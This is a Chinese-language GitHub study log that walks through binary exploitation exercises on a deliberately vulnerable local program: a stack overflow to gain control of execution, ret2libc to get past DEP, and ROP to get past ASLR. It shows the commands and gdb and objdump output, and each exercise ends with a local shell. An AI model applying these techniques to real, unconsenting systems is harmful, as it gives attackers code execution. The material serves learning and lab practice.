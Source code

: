 # shellcode_learning
这个日志记录了学习shellcode过程和在学习过程中遇到的问题。<br><br>
主要参考了蒸米的一步一步学ROP，修改了作者的部分错误和一些其他博客。<br><br>

## 配置环境
操作系统：ubuntu16.04 LTS 64位系统（建议不使用ubuntu18,可能使用了更加复杂的地址保护机制，容易导致实验失败）<br>
编译工具：
1. python2 <br>
2. pwntools(py的库函数，安装方法见https://www.cnblogs.com/pcat/p/5451780.html ）<br>
3. objdump <br>
4. ROPgadget<br>

## linux_84
### Control Flow Hijack 程序流劫持
$ gcc -fno-stack-protector -z execstack  -m32 -o level1 level1.c<br>
因为ubuntu16.04是64位系统在编译 -m32 时会报错，因为需要安装安装库文件sudo apt-get install gcc-4.8-multilib g++-4.8-multilib<br>
$ sudo -s<br>
$ echo 0 > /proc/sys/kernel/randomize_va_space<br>
$ exit<br>
$ python pattern.py create 150得到<br>
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9<br>
$ gdb ./level1<br>
（gdb)run 得到<br>
Program received signal SIGSEGV, Segmentation fault.<br>
0x37654136 in ?? ()<br>
（gdb）quit<br>
$ python pattern.py offset 0x37654136 得到<br>
hex pattern decoded as: 6Ae7<br>
140<br>
$ ulimit -c unlimited<br>
$ sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'<br>
$ ./level1 得到<br>
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<br>
段错误 (核心已转储)<br>
$ gdb level1 /tmp/core.1545029320<br>
Program terminated with signal SIGSEGV, Segmentation fault.<br>
#0  0x41414141 in ?? ()<br>
(gdb) x/10s $esp -144<br>
0xffffd000:	"ABCD", 'A' <repeats 140 times>, "\nS\373\367\260\320\377\377"<br>
0xffffd099:	""<br>
$ python exp1.py<br>
$ python exp1.py<br>
[+] Starting local process './level1': pid 14146<br>
[*] Switching to interactive mode<br>
$ whoami<br>
[用户名] <br><br>

### Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护
$  gcc -fno-stack-protector -m32 -o level2 level1.c<br>
$ gdb ./level2<br>
(gdb) break main<br>
Breakpoint 1 at 0x80484ea<br>
(gdb) run<br>
Breakpoint 1, 0x080484ea in main ()<br>
(gdb) print system 得到<br>
$1 = {<text variable, no debug info>} 0xf7e3f940 <system><br>
(gdb) print __libc_start_main<br>
$2 = {<text variable, no debug info>} 0xf7e1d540 <__libc_start_main><br>
(gdb) find 0xf7e1d540, +2200000, "/bin/sh"<br>
0xf7f5e02b<br>
(gdb）quit<br>
$ python exp2.py<br>
[+] Starting local process './level2': pid 14319<br>
[*] Switching to interactive mode<br>
$ whoami<br>
[用户名] <br><br>
  
### ROP– Bypass DEP and ASLR 通过ROP绕过DEP和ASLR防护
$ sudo -s<br>
$ echo 2 > /proc/sys/kernel/randomize_va_space<br>
$ cat /proc/sys/kernel/randomize_va_space<br>
2<br>
$ exit<br>
$ objdump -d -j .plt level2 得到<br>
level2：     文件格式 elf32-i386<br>
Disassembly of section .plt:<br>
080482f0 <read@plt-0x10>:<br>
 80482f0:	ff 35 04 a0 04 08    	pushl  0x804a004<br>
 80482f6:	ff 25 08 a0 04 08    	jmp    *0x804a008<br>
 80482fc:	00 00                	add    %al,(%eax)<br>
	...<br>

08048300 <read@plt>:<br>
 8048300:	ff 25 0c a0 04 08    	jmp    *0x804a00c<br>
 8048306:	68 00 00 00 00       	push   $0x0<br>
 804830b:	e9 e0 ff ff ff       	jmp    80482f0 <_init+0x28><br>

08048310 <__libc_start_main@plt>:<br>
 8048310:	ff 25 10 a0 04 08    	jmp    *0x804a010<br>
 8048316:	68 08 00 00 00       	push   $0x8<br>
 804831b:	e9 d0 ff ff ff       	jmp    80482f0 <_init+0x28><br>

08048320 <write@plt>:<br>
 8048320:	ff 25 14 a0 04 08    	jmp    *0x804a014<br>
 8048326:	68 10 00 00 00       	push   $0x10<br>
 804832b:	e9 c0 ff ff ff       	jmp    80482f0 <_init+0x28><br>
$ objdump -R level2 得到<br>
level2：     文件格式 elf32-i386<br>

DYNAMIC RELOCATION RECORDS<br>
OFFSET   TYPE              VALUE <br>
08049ffc R_386_GLOB_DAT    __gmon_start__<br>
0804a00c R_386_JUMP_SLOT   read@GLIBC_2.0<br>
0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0<br>
0804a014 R_386_JUMP_SLOT   write@GLIBC_2.0<br>

$ ldd level2<br>
$ cp /lib32/libc.so.6 libc.so<br>
$ objdump -d level2 | grep vulnerable_function0804843b <vulnerable_function>:<br>
 8048471:	e8 c5 ff ff ff       	call   804843b <vulnerable_function><br>
$ python exp3.py<br>
[ * ].......<br>
[ * ] Switching to interactive mode<br>
$ whoami<br>
[用户名] <br><br>
